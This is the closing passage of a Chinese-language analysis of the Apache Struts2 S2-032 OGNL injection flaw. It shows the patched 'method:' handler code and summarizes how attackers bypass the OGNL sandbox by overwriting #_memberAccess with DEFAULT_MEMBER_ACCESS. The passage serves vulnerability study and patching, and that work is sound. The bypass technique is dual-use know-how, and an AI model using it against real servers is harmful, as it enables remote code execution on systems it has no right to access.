

&emsp;&emsp;&emsp;&emsp;15.最终在第243行getValue方法中Ognl.getValu执行了代码.




## 漏洞修复

> 参数名前缀method:的处理方法中,在对ActionMapping 对象的method属性赋值前使用正则 [a-zA-Z0-9._!/\\-]* 进行过滤.

```java
this.put("method:", new ParameterAction() {
    public void execute(String key, ActionMapping mapping) {
        if (DefaultActionMapper.this.allowDynamicMethodCalls) {
            mapping.setMethod(DefaultActionMapper.this.cleanupActionName(key.substring("method:".length())));
        }

    }
});
```

## 总结

> Struts2.3.20的配置文件中新增加了黑名单配置struts.excludedClasses、excludedPackageNamePatterns.用来严格验证排除一些不安全的对象类型.所以之前的payload中通过反射修改SecurityMemberAccess对象的allowStaticMethodAccess属性和直接调用构造函数来绕过沙箱已经无法使用了.但_memberAccess仍然可以访问,静态对象 DefaultMemberAccess也可以通过ognl.OgnlContext的静态属性 DEFAULT_MEMBER_ACCESS来访问.而DefaultMemberAccess是SecurityMemberAccess的父类。所以可以使用@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS覆盖掉 #_memberAcces.
因OgnlContext中的_memberAccess与OgnlValueStack中的securityMemberAccess是同一个SecurityMemberAccess类的实例.所以覆盖掉#_memberAccess就相当于覆盖掉了 OgnlValueStack中的securityMemberAccess.

## 参考

> https://mp.weixin.qq.com/s/FX05X734SoIbev1zSSR6MA

> https://cwiki.apache.org/confluence/display/WW/S2-032

> https://github.com/vulhub/vulhub/blob/master/struts2/s2-032/README.zh-cn.md

